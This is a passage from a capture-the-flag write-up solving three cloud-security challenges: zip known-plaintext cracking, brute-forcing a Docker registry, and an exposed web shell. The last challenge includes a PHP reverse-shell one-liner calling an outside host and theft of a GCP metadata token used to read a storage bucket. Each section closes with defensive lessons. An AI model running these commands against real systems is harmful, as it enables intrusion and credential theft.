After that, I went into the AWS console and created an AMI from that EBS snapshot, and launched an EC2 instance based on that AMI. Then I could SSH into my copy of Sherlock Holmes's system. Eventually I discovered the ``/var/www/supersecretapp.zip`` file. The zip archive was encrypted, but the directory paths and file names were able to be viewed without decrypting.

::

    $ zipinfo supersecretapp.zip | grep file
    ...
    found file 'www/db_config.php', size 420 (300), encrypted
    found file 'www/js/main.js', size 1815 (563), encrypted
    found file 'www/logout.php', size 70 (72), encrypted
    found file 'www/home.php', size 1173 (574), encrypted
    ...
    found file 'www/fonts/font-awesome-4.7.0/fonts/fontawesome-webfont.svg', size 444379 (136013), encrypted
    ...

I tried cracking the password with john the ripper and a few different password lists. None of those worked, though. It's possible to crack zip files if one of the files is known, and since I knew that font-awesome 4.7.0 was being used, I was able to download that, craft an unencrypted zipfile that had the same structure for one of its files (I picked the biggest one I could find, because that speeds up the cracking process), and then used pkcrack to get a decrypted zip archive.

::

    # https://fontawesome.com/v4.7.0/get-started/
    # unzip that and move to www/fonts/font-awesome-4.7.0
    $ zip -r plaintext.zip www/fonts/font-awesome-4.7.0

    $ pkcrack -C supersecretapp.zip -P plaintext.zip -d crackedapp.zip -p www/fonts/font-awesome-4.7.0/fonts/fontawesome-webfont.svg -a -c www/fonts/font-awesome-4.7.0/fonts/fontawesome-webfont.svg

That produces crackedapp.zip, and db_config.php is visible when unpacked.

.. code-block:: php

    ...
    $DBUSER = 'noob';
    $DBPASS = 'morbidcuriosity1';
    $DBHOST = 'sherlockholmes.cofmk5ck21bg.us-east-1.rds.amazonaws.com';
    $DBPORT = getenv("port");//changed to avoid random scans from the internet                                                                             
    $con=mysqli_connect($DBHOST,$DBUSER,$DBPASS,'sherlockholmes');
    ...

Port scanning the RDS instance reveals the port.::

    $ nmap -A -Pn  sherlockholmes.cofmk5ck21bg.us-east-1.rds.amazonaws.com
    Nmap scan report for sherlockholmes.cofmk5ck21bg.us-east-1.rds.amazonaws.com (107.21.193.30)
    Host is up (0.089s latency).
    rDNS record for 107.21.193.30: ec2-107-21-193-30.compute-1.amazonaws.com
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    3389/tcp open  mysql   MySQL 5.5.5-10.2.21-MariaDB-log
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.2.21-MariaDB-log
    |   Thread ID: 6842
    |   Capabilities flags: 65534
    |   Some Capabilities: Support41Auth, ConnectWithDatabase, SupportsCompression, FoundRows, SwitchToSSLAfterHandshake, IgnoreSigpipes, LongColumnFlag, SupportsTransactions, SupportsLoadDataLocal, Speaks41ProtocolOld, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
    |   Status: Autocommit
    |   Salt: Y|(K%u@{m1I]vZBy[=^B
    |_  Auth Plugin Name: mysql_native_password

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 75.42 seconds

Unfortunately, in conducting that port scan it also caused the system to ban my IP. I started yet another instance and then was able to connect. Showing the database tables revealed a ``flagtable`` that had the flag!

::

    $ mysql -u noob -pmorbidcuriosity1 -h sherlockholmes.cofmk5ck21bg.us-east-1.rds.amazonaws.com -P 3389
    mysql ((none))> use sherlockholmes;
    mysql (sherlockholmes)> show tables;
    +--------------------------+
    | Tables_in_sherlockholmes |
    +--------------------------+
    | flagtable                |
    +--------------------------+
    1 row in set (0.26 sec)
    mysql (sherlockholmes)> select * from flagtable;
    +-----------------------------------------+
    | flag                                    |
    +-----------------------------------------+
    | FLAG-{AUbt2MVIpsidtsFLhG1fg8w63uzEJp2R} |
    +-----------------------------------------+
    1 row in set (0.14 sec)

Lessons
~~~~~~~
* Don't make EBS snapshots public unless you are really sure there are not secrets in them.
* Zip encryption is not secure. I cracked it in seconds on commodity hardware.
* I need to be more careful when port scanning targets.

Please contain me! (500 points)
-------------------------------

    Blog writers are weird people. Some of them have artistic pages, some of them are keep it simple.

    And then there are some, like the creator of the blog for this CTF domain, who prefers to knock people of the floor with his meaningless content.

    But is the content truly meaningless?

    Your mission, if you choose to accept it, is to find the flag that the blog creator has hidden somewhere on the Interwebs. Follow the blog to start your mission!

There was a blog subdomain for the CTF, which had its DNS pointing to an S3 bucket. Requesting the index.html page returned a base64 encoded blob of text. Decoding that to a file, then using the ``file`` utility revealed it was a zip archive. It was password protected, but john the ripper was able to discover the password easily using the `rockyou password list <https://www.kaggle.com/wjburns/common-password-list-rockyoutxt>`_.

::

    $ dig blog.cloudvillagectf.co +short
    blog.cloudvillagectf.co.s3.amazonaws.com.
    s3-1-w.amazonaws.com.
    52.217.96.204

    $ curl -vs http://blog.cloudvillagectf.co/index.html -o index.html
    $ cat index.html |base64 -d > index_decoded.zip
    $ unzip index_decoded.zip 
    Archive:  index_decoded.zip
    [index_decoded.zip] cert.pem password: 
    skipping: cert.pem                incorrect password
    skipping: readme.md               incorrect password

    $ zip2john index_decoded.zip > index_decoded_forjohn
    $ john --wordlist=rockyou.txt index_decoded_forjohn
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    culprit          (index_decoded.zip)
    1g 0:00:00:00 DONE (2020-08-08 10:33) 9.090g/s 4730Kp/s 4730Kc/s 4730KC/s cupcake143..cueca
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

    $ file cert.pem 
    cert.pem: PEM certificate

    $ cat readme.md 
    Hey Chris,

    I have been bothering about the docker images collection for a very long time. I am tired and now I need some automated collection storage to store the images. I can't do this anymore. So I have 
    found a tool and I am attaching the link for you to access. 

    URL:- https://docker1.cloudvillagectf.co

    Please utilize it and play with it. Don't forget about the steps to access it as we discussed. 

    - L33tHaxx0r

The PEM cert was an SSL certificate for docker.cloudvillagectf.co. Both docker. and docker1. subdomains were docker image registries hosted behind an AWS ELB.

::

    $ dig docker1.cloudvillagectf.co +short
    ctf-registry-28240095.us-east-2.elb.amazonaws.com.
    $ dig docker.cloudvillagectf.co +short
    ctf-registry-28240095.us-east-2.elb.amazonaws.com.

    $ openssl x509 -in cert.pem -text -noout |grep Subject
            Subject: CN=docker.cloudvillagectf.co
            Subject Public Key Info:
                X509v3 Subject Key Identifier: 
                X509v3 Subject Alternative Name: 

The registry at the docker1. subdomain did not require authentication. The docker client would not work with that registry, though, because the SSL cert didn't match the actual domain name. The REST APIs still worked using curl and ignoring SSL cert errors. Using the REST APIs, it was possible to list images and tags, as well as download the layers. Inside one of the layers was a message about VHOST, and some other random words.

::

    $ curl -vsk https://docker1.cloudvillagectf.co/v2/_catalog
    {"repositories":["culprit-image"]}

    $ curl -vsk https://docker1.cloudvillagectf.co/v2/culprit-image/tags/list
    {"name":"culprit-image","tags":["latest"]}

    $ curl -vsk https://docker1.cloudvillagectf.co/v2/culprit-image/manifests/latest -o manifests.json
    ...
            "blobSum": "sha256:cbc6088e8776fa0301d4ef4ed56276202ab283999670a73f59d6790d531b3afd"
        },                   
        {                                                                     
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },      
        {                   
            "blobSum": "sha256:df20fa9351a15782c64e6dddb2d4a6f50bf6d3688060a34c4014b0d9a752eb4c"
    ...

    $ tar xf sha256\:cbc6088e8776fa0301d4ef4ed56276202ab283999670a73f59d6790d531b3afd.tar.gz 

    $ tree .
    .
    |-- home
    |   `-- haxxor
    |       `-- haxxor-memo.txt
    |-- root
    `-- sha256:cbc6088e8776fa0301d4ef4ed56276202ab283999670a73f59d6790d531b3afd.tar.gz

    3 directories, 2 files

    $ cat home/haxxor/haxxor-memo.txt
    Hi culprit, I am a naive hacker. I should have been punished for even being here! Now you know me so contact me and help me out. - #ashT@gsuper  ..... P.S. The place you are looking for is a VHOST

    $ file home/haxxor/.wh..wh..opq
    home/haxxor/.wh..wh..opq: empty


I made the guess that these leetspeak words were probably a password or username for the docker. subdomain registry. I wrote a quick script to brute force the docker.cloudvillagectf.co registry using the random words that had appeared in the text files for this challenge so far.
 
 .. code-block:: python
    
    import click
    import itertools
    import subprocess


    @click.command()
    def cli():
        possible_users_and_passwords = [
            'haxxor',
            '#ashT@gsuper',
            'culprit',
            '.wh..wh..opq',
            'Chris',
            'L33tHaxx0r',
        ]

        perms = list(itertools.permutations(possible_users_and_passwords, 2))
        for u, p in perms:
            if _is_docker_login(u, p):
                break
        print(f'None worked :-(')


    def _is_docker_login(user: str, password: str):
        cmd = [
            'docker',
            'login',
            'docker.cloudvillagectf.co',
            '-u', user,
            '-p', password
        ]
        try:
            result = subprocess.check_call(cmd)
        except subprocess.CalledProcessError as ex:
            return False
        print(f'SUCCESS: {" ".join(cmd)}')
        return True


    if __name__ == '__main__':
        cli()

Running that script revealed the credentials, which can be used as http basic auth on this registry. Then I was able to repeat the above requests to list images, tags, and download layers. Inside one of the layers was a flag.txt file. This was a little confusing, because the flag did not take the prescribed format (and was base64 decode-able).

::

    $ python exploit_docker_login.py
    Login Succeeded
    SUCCESS: docker login docker.cloudvillagectf.co -u culprit -p #ashT@gsuper

    $ curl -vsk -u'culprit:#ashT@gsuper' https://docker.cloudvillagectf.co/v2/_catalog
    {"repositories":["flag-image"]}

    $ curl -vsk -u'culprit:#ashT@gsuper' https://docker.cloudvillagectf.co/v2/flag-image/tags/list
    {"name":"flag-image","tags":["latest"]}

    $ curl -vsk -u'culprit:#ashT@gsuper' https://docker.cloudvillagectf.co/v2/flag-image/manifests/latest
    ...
            "blobSum": "sha256:f8dced26be77c25156a19c1632769595e5a8b4bcaf434c5a95c2151a0565cd85"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:4e643cc37772c094642f3168c56d1fcbcc9a07ecf72dbb5afdc35baf57e8bc29"
        },
        {
            "blobSum": "sha256:2821b8e766f41f4f148dc2d378c41d60f3d2cbe6f03b2585dd5653c3873740ef"
        },
        {
            "blobSum": "sha256:97058a342707e39028c2597a4306fd3b1a2ebaf5423f8e514428c73fa508960c"
        },
        {
            "blobSum": "sha256:692c352adcf2821d6988021248da6b276cb738808f69dcc7bbb74a9c952146f7"
    ...

    # download the layers

    $ tar xf sha256\:f8dced26be77c25156a19c1632769595e5a8b4bcaf434c5a95c2151a0565cd85.tar.gz 

    $ tree 
    .
    |-- home
    |   `-- culprit
    |       `-- flag.txt
    |-- root
    `-- sha256:f8dced26be77c25156a19c1632769595e5a8b4bcaf434c5a95c2151a0565cd85.tar.gz

    3 directories, 2 files

    $ cat home/culprit/flag.txt 
    NDliMzVkMjhmNjk1YTI3N2MwNjNhYmFlZWVlNGQ2MDE=

The flag was: ``FLAG-{NDliMzVkMjhmNjk1YTI3N2MwNjNhYmFlZWVlNGQ2MDE=}``

Lessons
~~~~~~~
* Make sure there is auth *and* valid SSL configured on docker registries.
* And, zip file encryption is not secure.

Just out of reach! (800 points)
-------------------------------

    Dave considers himself to be a cloud expert, but more often than not, misses the subtleties of web and cloud security. Take the latest web app that he has built. It offers functionality to view images (pretty lowkey I must say), but has all the necessary precautions to prevent users from abusing the application.

    Can you teach Dave a lesson by hacking into the app and extracting the flag from one of the resources that he uses?

    You can start here - http://imageapp.cloudvillagectf.co

There were some interesting misdirections on this one. For example, there was a robots.txt that had /admin/ disallowed. The user-agent in that robots.txt file didn't actually match common user agents, though, and there wasn't a /admin/ directory or route that I found.

Eventually I discovered there were several development/build/config files that could be downloaded. The composer.json file revealed that phpdotenv was being used. The .env file—commonly used to pass sensitive configuration to php services—could be downloaded, and had a SECRET variable in it. The /downloads/ directory also had a suspicious file called shell.php... That in combination with the server version being Apache 2.4.29, which has a `remote code execution vulnerability <https://nvd.nist.gov/vuln/detail/CVE-2019-0211>`_ with a `known exploit <https://www.tenable.com/blog/cve-2019-0211-proof-of-concept-for-apache-root-privilege-escalation-vulnerability-published>`_, made me think that shell.php was exploitable.

::

    $ python ../dirsearch/dirsearch.py -e html -u http://imageapp.cloudvillagectf.co/
    200   178B   http://imageapp.cloudvillagectf.co:80/composer.json
    200    17KB  http://imageapp.cloudvillagectf.co:80/composer.lock
    301   340B   http://imageapp.cloudvillagectf.co:80/css
    301   346B   http://imageapp.cloudvillagectf.co:80/downloads
    301   342B   http://imageapp.cloudvillagectf.co:80/fonts
    302     0B   http://imageapp.cloudvillagectf.co:80/home.php
    301   343B   http://imageapp.cloudvillagectf.co:80/images
    200     4KB  http://imageapp.cloudvillagectf.co:80/index.php
    200     4KB  http://imageapp.cloudvillagectf.co:80/index.php/login/
    301   339B   http://imageapp.cloudvillagectf.co:80/js
    200    32B   http://imageapp.cloudvillagectf.co:80/robots.txt
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/autoload.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/autoload_classmap.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/autoload_files.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/autoload_namespaces.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/autoload_psr4.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/ClassLoader.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/autoload_static.php
    200     0B   http://imageapp.cloudvillagectf.co:80/vendor/composer/autoload_real.php
    200     3KB  http://imageapp.cloudvillagectf.co:80/vendor/composer/LICENSE
    200    15KB  http://imageapp.cloudvillagectf.co:80/vendor/composer/installed.json

    $ curl -vs 'http://imageapp.cloudvillagectf.co:80/composer.json'
    ...
    {
        "require": {
            "vlucas/phpdotenv": "^2.4",
            "nesbot/carbon": "^2.36"
        },
        "autoload": {
            "psr-4": {
                "Src\\": "src/"
            }
        }
    }

    $ curl -vs 'http://imageapp.cloudvillagectf.co/.env'
    ...
    SECRET=vjht123jltccf

    # There are some other interesting finds in /downloads/
    $ python ../dirsearch/dirsearch.py -e html -u http://imageapp.cloudvillagectf.co/downloads/
    ...
    [18:50:46] 200 -    0B  - /downloads/shell.php
    ...

shell.php did allow for RCE, and I was able to get the source for index.php and all the files it used. That revealed the JWT creation and validation code, which ended up not being needed (though JWTs could be forged with the secret). There was a standard user with name dave and password dave. There was an admin user with more interesting creds. The admin user, when signed in was shown a text field that accepted a url and would download the file to the /downloads/ directory.

::

    $ http://imageapp.cloudvillagectf.co/downloads/shell.php?cmd=echo+123
    returns 123

    $ curl -vs 'http://imageapp.cloudvillagectf.co/downloads/shell.php?cmd=cat+../index.php' -o
    index.php
    ...
            if ($pass==="dave"){
            $_SESSION["user"]=$user; 
            $role="user";
            $jwt=generate_jwt($user,$role);

            header("Location: ./home.php");
            setcookie("authtoken",$jwt);

    }elseif($user==="mockingbird"){
        if ($pass==="MockingBird12@"){
            $_SESSION["user"]=$user;
            $role="admin";
            $jwt=generate_jwt($user,$role);

            header("Location: ./home.php");
            setcookie("authtoken",$jwt);
    ...

I got to this challenge later after several other teams had solved it. By that time, continuing to use the shell.php program, I could see that there were tons of `reverse shells <https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/>`_. I setup my own using the php one liner from the `reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_, and then I was able to peruse the system.

::

    # on my host (it has public IP 34.1.2.3, and allows inbound TCP connections to port 29617):
    $ nc -l 29617

    # on the system, we need to run:
    $ php -r '$sock=fsockopen("34.1.2.3",29617);exec("/bin/sh -i <&3 >&3 2>&3");'


It turned out to be a GCP instance. I didn't find the flag on the file sytem. Then I turned my attention to the metadata API. I knew this is a common exploit on AWS instance, and assumed there would be something similar on GCP instance. Sure enough there is a way to get a GCP token from the metadata API, and then I was able to use that to list storage buckets, the objects in the one that was accessible, and ultimately read the object that had the flag in it.

::

    $ find . -type f -exec grep -l 'FLAG-{' {} \;
    # sad panda... 

    $ curl -s 169.254.169.254/0.1/meta-data/zone ; echo
    projects/1015935179454/zones/us-central1-a

    $ curl -s -H "Metadata-Flavor: Google" 169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
    {"access_token":"ya29.c.Kn_XB5wYJr1CRQQ7-bRx-YJHqHwmDQriuIsAi6mljYJorkw_xSkr2PuRcu3ZNhsbk3sGMMP8SkqVo3HKKHmJxMpOKae7Gh8Z_Da0jdFQjY-<redacted>","expires_in":2409,"token_type":"Bearer"}

    $ export TOKEN='ya29.c.Kn_XB5wYJr1CRQQ7-bRx-YJHqHwmDQriuIsAi6mljYJorkw_xSkr2PuRcu3ZNhsbk3sGMMP8SkqVo3HKKHmJxMpOKae7Gh8Z_Da0jdFQjY-<redacted>'

    $ curl -s -H "Authorization: Bearer ${TOKEN}" https://storage.googleapis.com/storage/v1/b?project=1015935179454
    {
        "kind": "storage#buckets",
        "items": [
            {
            "kind": "storage#bucket",
            "selfLink": "https://www.googleapis.com/storage/v1/b/secretstorage",
            "id": "secretstorage",
            "name": "secretstorage",
            "projectNumber": "1015935179454",
            "metageneration": "1",
            "location": "US",
            "storageClass": "STANDARD",
            "etag": "CAE=",
            "defaultEventBasedHold": false,
            "timeCreated": "2020-08-02T12:33:10.078Z",
            "updated": "2020-08-02T12:33:10.078Z",
            "iamConfiguration": {
                "bucketPolicyOnly": {
                "enabled": false
                },
                "uniformBucketLevelAccess": {
                "enabled": false
                }
            },
            "locationType": "multi-region"
            }
        ]
    }

    $ curl -s -H "Authorization: Bearer ${TOKEN}"  https://storage.googleapis.com/storage/v1/b/secretstorage/o
    {
    "kind": "storage#objects",
    "items": [
        {
        "kind": "storage#object",
        "id": "secretstorage/flag.txt/1596371607035421",
        "selfLink": "https://www.googleapis.com/storage/v1/b/secretstorage/o/flag.txt",
        "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/secretstorage/o/flag.txt?generation=1596371607035421&alt=media",
        "name": "flag.txt",
        "bucket": "secretstorage",
        "generation": "1596371607035421",
        "metageneration": "1",
        "contentType": "text/plain",
        "storageClass": "STANDARD",
        "size": "39",
        "md5Hash": "JCfY6fBZsGmfX9m/OmnW7g==",
        "crc32c": "pYfXvg==",
        "etag": "CJ28xNTD/OoCEAE=",
        "timeCreated": "2020-08-02T12:33:27.035Z",
        "updated": "2020-08-02T12:33:27.035Z",
        "timeStorageClassUpdated": "2020-08-02T12:33:27.035Z"
        }
    ]
    }

    $ curl -s -H "Authorization: Bearer ${TOKEN}"  https://storage.googleapis.com/storage/v1/b/secretstorage/o/flag.txt
    {
    "kind": "storage#object",
    "id": "secretstorage/flag.txt/1596371607035421",
    "selfLink": "https://www.googleapis.com/storage/v1/b/secretstorage/o/flag.txt",
    "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/secretstorage/o/flag.txt?generation=1596371607035421&alt=media",
    "name": "flag.txt",
    "bucket": "secretstorage",
    "generation": "1596371607035421",
    "metageneration": "1",
    "contentType": "text/plain",
    "storageClass": "STANDARD",
    "size": "39",
    "md5Hash": "JCfY6fBZsGmfX9m/OmnW7g==",
    "crc32c": "pYfXvg==",
    "etag": "CJ28xNTD/OoCEAE=",
    "timeCreated": "2020-08-02T12:33:27.035Z",
    "updated": "2020-08-02T12:33:27.035Z",
    "timeStorageClassUpdated": "2020-08-02T12:33:27.035Z"
    }

    $ curl -s -H "Authorization: Bearer ${TOKEN}"  'https://storage.googleapis.com/download/storage/v1/b/secretstorage/o/flag.txt?generation=1596371607035421&alt=media'
    FLAG-{cU3XThbIgqt7heW1fV1C6LyhyrWiJJsr}

Lessons
~~~~~~~
* Don't deploy development files to production hosts.
* Don't allow users to download configuration files, especially if they contain secrets. Use a secrets manager, or at least make the files unreadable/unfetchable by HTTP requests.
* The JWT signing secret was not very strong for this service. That was the least of its issues in this particular case, however it should be a strong secret values so it cannot be cracked easily.
* This application also rolled its own JWT signing and validation... that's not advisable. In this case, it avoided common JWT issues like alg=none, but there might have been more subtle issues.
* Definitely defintely defintely don't download arbitrary urls that users can specify, and then execute those files or allow users to execute them. That's how all kinds of horrible things can happen. I was amazed at the number of reverse shells and other random software that had been downloaded. I was also impressed that nobody had setup a crypo miner on that instance...
